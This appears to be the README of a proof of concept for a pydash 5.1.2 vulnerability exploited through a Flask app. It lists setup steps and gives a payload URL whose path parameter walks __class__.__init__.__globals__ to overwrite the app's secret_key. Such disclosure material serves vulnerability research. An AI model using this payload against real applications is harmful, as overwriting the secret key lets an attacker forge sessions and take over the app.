 
**Instructions for pydash 5.1.2 and flask PoC**
**Prerequisites:** python3.x, pip
* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'
    3. result will be printed in the terminal window running the flask server
